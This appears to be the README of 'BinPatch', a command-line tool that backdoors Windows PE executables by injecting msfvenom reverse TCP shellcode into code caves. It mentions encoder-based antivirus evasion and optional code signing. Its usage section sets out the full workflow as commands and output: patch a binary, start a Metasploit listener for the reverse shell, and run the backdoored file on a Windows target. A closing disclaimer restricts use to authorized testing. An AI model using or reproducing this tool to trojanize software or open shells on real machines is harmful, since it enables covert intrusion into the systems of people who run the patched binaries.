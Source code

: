 # BinPatch

## Overview
BinPatch is a command-line tool for penetration testers to patch executable binaries (Windows PE, ELF, Mach-O) with shellcode while preserving original functionality, designed for authorized security assessments in Kali Linux. It injects reverse TCP shellcode into code caves or new sections, using `msfvenom` for payload generation and encoding for antivirus evasion. This tool is inspired by `backdoor-factory` but is a simplified implementation.

## Features
- Supports Windows PE (x86/x64) binaries (ELF and Mach-O planned).
- Injects shellcode into code caves, preserving binary functionality.
- Generates reverse TCP shellcode with `msfvenom`, supporting encoders (e.g., shikata_ga_nai).
- Outputs backdoored binaries to a `backdoored/` directory.
- Includes a sample binary (`hello.exe`) for testing.
- Lightweight and optimized for Kali Linux.

## Prerequisites
- Kali Linux (or similar with Metasploit installed)
- Python 3.6 or higher
- `msfvenom` (part of Metasploit Framework)
- Python libraries: `pefile`, `capstone`
- Optional: `osslsigncode` for PE code signing
- Write access to `/opt/binpatch` (default repository path)

## Installation

### Setup
1. Clone or download the repository.
2. Run the setup script to create a virtual environment, install dependencies, and set up the repository:
   ```bash
   chmod +x set_upfile.sh
   ./set_upfile.sh
   ```
3. Activate the virtual environment:
   ```bash
   source venv/bin/activate
   ```

### Compile Sample Binary
1. Compile `hello.c` to create `hello.exe` (requires `mingw-w64`):
   ```bash
   x86_64-w64-mingw32-gcc hello.c -o hello.exe
   ```
2. Use `hello.exe` as a test binary for patching.

## Usage
Run the tool with:
```bash
python binpatch.py -f <binary> -H <LHOST> -P <LPORT> [-s <shellcode>] [-e <encoder>]
```

- **-f, --file**: Path to the binary (e.g., `hello.exe`).
- **-H, --host**: LHOST for reverse shell (e.g., `192.168.1.100`).
- **-P, --port**: LPORT for reverse shell (e.g., `4444`).
- **-s, --shellcode**: Shellcode type (default: `reverse_shell_tcp`).
- **-e, --encoder**: Encoder for shellcode (default: `x86/shikata_ga_nai`).

### Example
1. **Patch a binary**:
   ```bash
   python binpatch.py -f hello.exe -H 192.168.1.100 -P 4444 -s reverse_shell_tcp -e x86/shikata_ga_nai
   ```
   Output:
   ```
   [*] Detected PE binary.
   [*] Shellcode generated successfully.
   [*] Using cave in section .text at offset 0x1234 (size: 500 bytes).
   [*] Backdoored binary saved to backdoored/hello.exe
   ```

2. **Set up Metasploit listener**:
   ```bash
   msfconsole -q
   use multi/handler
   set PAYLOAD windows/shell_reverse_tcp
   set LHOST 192.168.1.100
   set LPORT 4444
   exploit
   ```

3. **Run the backdoored binary** (on a Windows target):
   - Execute `backdoored/hello.exe` to trigger the shellcode and connect back to the Metasploit listener.

## Repository Structure
```
/opt/binpatch/
├── hello.exe        # Sample binary
├── backdoored/      # Directory for patched binaries
└── certs/           # Directory for code signing certificates (optional)
```

## Limitations
- Only PE binaries are supported in this version (ELF/Mach-O planned).
- Basic code cave injection; no cave jumping or IAT patching.
- Limited AV evasion (relies on `msfvenom` encoding).
- No support for packed binaries (e.g., UPX).
- Requires manual certificate setup for code signing.

## License
MIT License

## Warning
BinPatch is for ethical penetration testing and authorized security assessments only. Unauthorized use against systems you do not own or have permission to test is illegal and unethical. Always obtain explicit permission before testing. The author is not responsible for misuse.